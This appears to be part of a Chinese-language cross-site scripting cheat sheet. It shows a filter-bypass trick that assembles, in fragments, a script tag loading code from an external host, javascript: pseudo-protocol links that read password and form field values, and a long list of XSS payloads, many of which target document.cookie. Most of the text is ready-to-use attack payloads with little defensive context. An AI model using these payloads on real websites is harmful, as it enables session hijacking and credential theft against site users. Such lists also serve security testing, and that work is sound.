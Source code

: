 #### 13.  绕过限制字符（要求同页面）

```
<script>z='document.'</script>
<script>z=z+'write("'</script>
<script>z=z+'<script'</script>
<script>z=z+' src=ht'</script>
<script>z=z+'tp://ww'</script>
<script>z=z+'w.test'</script>
<script>z=z+'.com/1.'</script>
<script>z=z+'js></sc'</script>
<script>z=z+'ript>")'</script>
<script>eval_r(z)</script>
```



## 0x0a JavaScript伪协议

JavaScript伪协议，是把js代码放在javascript:后，放在链接或者HTML事件处理中，这个特殊的协议类型声明了URL主体是任意的js代码，如果有多个js语句，使用分号分隔开。

```
http://xxx?key=javascript:alert(1)">
或
<a href="javascript:document.domain">xss</a>
```



## 0x0b 获取Cookie中的密码

利用JavaScript伪协议获取cookie中的密码。

```
# 注意修改对应的标签号和标签name值
javascript:alert(document.getElementsByTagName(form)[0].getElementsByTagName(input)[1].value);	

# 注意修改对应的标签id值
javascript:alert(document.getElementsById(username).value=admin);document.getElementById(password).focus();
```



## 0x0c XSS payload

```
"><script>"
<script>alert("WXSS")</script>
<<script>alert("WXSS");//<</script>
<script>alert(document.cookie)</script>
'><script>alert(document.cookie)</script>
'><script>alert(document.cookie);</script>
\";alert('XSS');//
%3cscript%3ealert("WXSS");%3c/script%3e
%3cscript%3ealert(document.cookie);%3c%2fscript%3e
%3Cscript%3Ealert(%22X%20SS%22);%3C/script%3E
&ltscript&gtalert(document.cookie);</script>
&ltscript&gtalert(document.cookie);&ltscript&gtalert
<xss><script>alert('WXSS')</script></vulnerable>
<IMG%20SRC='javascript:alert(document.cookie)'>
<IMG%20SRC="javascript:alert('WXSS');">
<IMG%20SRC="javascript:alert('WXSS')"
<IMG%20SRC=javascript:alert('WXSS')>
<IMG%20SRC=JaVaScRiPt:alert('WXSS')>
<IMG%20SRC=javascript:alert(&quot;WXSS&quot;)>
<IMG%20SRC=`javascript:alert("'WXSS'")`>
<IMG%20"""><SCRIPT>alert("WXSS")</SCRIPT>">
```